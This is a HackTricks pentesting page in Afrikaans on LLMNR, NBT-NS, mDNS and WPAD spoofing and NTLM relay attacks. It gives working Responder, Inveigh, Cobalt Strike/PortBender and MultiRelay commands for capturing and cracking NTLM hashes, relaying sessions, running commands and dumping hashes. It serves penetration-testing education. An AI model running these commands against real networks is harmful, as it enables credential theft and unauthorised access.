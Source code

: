 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Netwerk Protokolle

### Plaaslike Gasheer Oplossingsprotokolle
- **LLMNR, NBT-NS, en mDNS**:
- Microsoft en ander bedryfstelsels gebruik LLMNR en NBT-NS vir plaaslike naamoplossing wanneer DNS misluk. Op soortgelyke wyse gebruik Apple en Linux stelsels mDNS.
- Hierdie protokolle is vatbaar vir onderskep en spoofing weens hul nie-geverifieerde, uitsendingsnatuur oor UDP.
- [Responder](https://github.com/lgandx/Responder) kan gebruik word om dienste na te boots deur vervalste antwoorde na gashere wat hierdie protokolle vra, te stuur.
- Verdere inligting oor diensna-booting met Responder kan [hier](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) gevind word.

### Web Proxy Auto-Discovery Protokol (WPAD)
- WPAD laat blaaiers toe om proxy-instellings outomaties te ontdek.
- Ontdekking word gefasiliteer via DHCP, DNS, of terugval na LLMNR en NBT-NS indien DNS misluk.
- Responder kan WPAD-aanvalle outomatiseer, wat kliënte na kwaadwillige WPAD-bedieners lei.

### Responder vir Protokol Vergiftiging
- **Responder** is 'n hulpmiddel wat gebruik word om LLMNR, NBT-NS, en mDNS vrae te vergiftig, selektief te antwoord op grond van vraetipes, hoofsaaklik teikening op SMB dienste.
- Dit kom vooraf geïnstalleer in Kali Linux, konfigureerbaar by `/etc/responder/Responder.conf`.
- Responder vertoon gevangen hashes op die skerm en stoor dit in die `/usr/share/responder/logs` gids.
- Dit ondersteun beide IPv4 en IPv6.
- Windows weergawe van Responder is beskikbaar [hier](https://github.com/lgandx/Responder-Windows).

#### Responder Uitvoering
- Om Responder met standaardinstellings te laat loop: `responder -I <Interface>`
- Vir meer aggressiewe ondersoek (met potensiële newe-effekte): `responder -I <Interface> -P -r -v`
- Tegnieke om NTLMv1 uitdagings/antwoorde te vang vir makliker krak: `responder -I <Interface> --lm --disable-ess`
- WPAD na-booting kan geaktiveer word met: `responder -I <Interface> --wpad`
- NetBIOS versoeke kan opgelos word na die aanvaller se IP, en 'n outentikasie-proxy kan opgestel word: `responder.py -I <interface> -Pv`

### DHCP Vergiftiging met Responder
- Spoofing DHCP antwoorde kan 'n slagoffer se routeringsinligting permanent vergiftig, wat 'n meer stil alternatief bied vir ARP vergiftiging.
- Dit vereis presiese kennis van die teiken netwerk se konfigurasie.
- Om die aanval te laat loop: `./Responder.py -I eth0 -Pdv`
- Hierdie metode kan effektief NTLMv1/2 hashes vang, maar dit vereis versigtige hantering om netwerkonderbreking te vermy.

### Capturing Kredensiale met Responder
- Responder sal dienste na boots met behulp van die bogenoemde protokolle, en kredensiale (gewoonlik NTLMv2 Uitdaging/Antwoord) vang wanneer 'n gebruiker probeer om teen die nagebootste dienste te outentiseer.
- Pogings kan aangewend word om af te gradeer na NetNTLMv1 of ESS te deaktiveer vir makliker kredensiaal krak.

Dit is van kardinale belang om te noem dat die gebruik van hierdie tegnieke wettig en eties gedoen moet word, met behoorlike magtiging en om onderbreking of ongeoorloofde toegang te vermy.

## Inveigh

Inveigh is 'n hulpmiddel vir penetrasietoetsers en rooi spanlede, ontwerp vir Windows stelsels. Dit bied funksies soortgelyk aan Responder, wat spoofing en man-in-the-middle aanvalle uitvoer. Die hulpmiddel het ontwikkel van 'n PowerShell skrip na 'n C# binêre, met [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) en [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) as die hoof weergawes. Gedetailleerde parameters en instruksies kan in die [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) gevind word.

Inveigh kan deur PowerShell bedryf word:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Of uitgevoer as 'n C# binêre:
```bash
Inveigh.exe
```
### NTLM Relay Aanval

Hierdie aanval benut SMB-authentikasiesessies om toegang tot 'n teikenmasjien te verkry, wat 'n stelselshell bied indien suksesvol. Sleutelvoorvereistes sluit in:
- Die autentiserende gebruiker moet Lokale Admin-toegang op die oorgedraagde gasheer hê.
- SMB-handtekening moet gedeaktiveer wees.

#### 445 Poort Oorgang en Tunneling

In scenario's waar direkte netwerkintroduksie nie haalbaar is nie, moet verkeer op poort 445 oorgedra en getunnel word. Gereedskap soos [**PortBender**](https://github.com/praetorian-inc/PortBender) help om poort 445-verkeer na 'n ander poort te herlei, wat noodsaaklik is wanneer lokale admin-toegang beskikbaar is vir bestuurderlaai.

PortBender opstelling en werking in Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Ander Gereedskap vir NTLM Relay Aanval

- **Metasploit**: Opgestel met proxies, plaaslike en afstandlike gasheerbesonderhede.
- **smbrelayx**: 'n Python-skrip vir die oordrag van SMB-sessies en die uitvoer van opdragte of die ontplooiing van agterdeure.
- **MultiRelay**: 'n Gereedskap uit die Responder-suite om spesifieke gebruikers of alle gebruikers te relaye, opdragte uit te voer of hashes te dump.

Elke gereedskap kan gekonfigureer word om deur 'n SOCKS-proxy te werk, indien nodig, wat aanvalle moontlik maak selfs met indirekte netwerktoegang.

### MultiRelay Operasie

MultiRelay word uitgevoer vanaf die _**/usr/share/responder/tools**_ gids, wat spesifieke IP's of gebruikers teiken.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Hierdie gereedskap en tegnieke vorm 'n omvattende stel vir die uitvoering van NTLM Relay-aanvalle in verskeie netwerkomgewings.

### Force NTLM Logins

In Windows **mag jy in staat wees om sommige bevoorregte rekeninge te dwing om te autentiseer op arbitrêre masjiene**. Lees die volgende bladsy om te leer hoe:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Verwysings
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
